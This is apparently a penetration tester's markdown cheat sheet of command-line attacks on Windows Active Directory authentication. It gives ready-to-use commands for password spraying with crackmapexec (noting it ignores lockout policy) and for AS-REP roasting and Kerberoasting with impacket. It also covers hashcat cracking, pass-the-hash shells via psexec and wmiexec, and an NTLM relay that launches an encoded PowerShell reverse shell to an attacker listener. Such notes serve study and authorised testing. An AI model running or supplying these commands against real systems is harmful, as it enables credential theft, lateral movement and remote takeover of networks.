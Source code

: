 # Attacking Authentication

## Password spray


Password spray attack with crackmapexec.
Note that crackmapexec doesn't look at the policy for locking users

```
crackmapexec smb $RHOST -u ${USERS_FILE} -p '${PASSWORD}' -d ${DOMAIN} --continue-on-success
```
Available protocols are: `ssh,mssql,winrm,smb,ldap,rdp,ftp`.


for smb, consider following up with found credentials and `--shares`.

Also remember that you can check for reused local admin credentials with:

```
crackmapexec smb $RHOST -u Administrator -H "${NTLM_HASH}" --local-auth --lsa
```


## Impacket

### AS-REP roasting

```
impacket-GetNPUsers -dc-ip ${DC_IP} -request -outputfile asrep-result.txt ${DOMAIN}/${OWNED_USER}
```

### Kerberoasting

This is good for high-privilege service accounts.
check for SPN accounts:
```
impacket-GetUserSPNs -dc-ip ${DC_IP} ${DOMAIN}/${DOMAIN_USER}:${DOMAIN_USER_PASSWORD} 

```
Now, we can request the TGS for the found SPN:

```
impacket-GetUserSPNs -dc-ip ${DC_IP} ${DOMAIN}/${DOMAIN_USER}:${DOMAIN_USER_PW} -request-user ${SPN_ACCOUNT} -outputfile tgs.txt 
```
Note the `$SPN_ACCOUNT` is the account Name, not the ServicePrincipalName.


Now, you can crack the password in the tgs file:

```
hashcat -a 0 -m 13100 tgs.txt /usr/share/wordlists/rockyou.txt
```

### Pass Admin hash psexec

Note that both "Pass the Admin hash" and the relay attack can sometimes be used to traverse with _local admin accounts_,
as some domains are setup with all local Administrators having the same password.
That means their NTLM hash is the same, meaning both `impacket-psexec` and the `impacket-ntlmrelayx` should work.

Assuming you've found an NTLM admin hash, you might be able to get a reverse shell onto another machine with `impacket-psexec`:

```
impacket-psexec -hashes :${NTLM_HASH} Administrator@$RHOST
```
a similar command is `impacket-wmiexec`, which gets us a shell as Administrator, rather than the SYSTEM:

```
impacket-wmiexec -hashes :${NTLM_HASH} Administrator@${RHOST}
```
This requires the SMB port (usually 445) to be available, Windows File and Printer sharing to be enabled, as well as the ADMIN$ share to be available.


### Relay hash with impacket-ntlmrelayx

You can relay SMB requests between SRV1 and SRV2 by doing the following:

* Setup an nc listener on kali: `nc -nvlp 6666`.
* From kali: `sudo impacket-ntlmrelayx --no-http-server -smb2support -t ${SRV2} -c "powershell -enc ${ENCODED_REV_SHELL}"` (`ENCODED_REV_SHELL` points to `$ATTACKER_IP` and port `6666`)
* From SRV1 do `dir \\$ATTACKER_IP\thiswillgetdenied`.
The SMB request with the NTLMv2 Hash of the user on SRV1 will get relayed to SRV2.
Target system needs to have UAC remote restrictions disabled, and the user on SRV1 needs to have access to SRV2 for this to work.

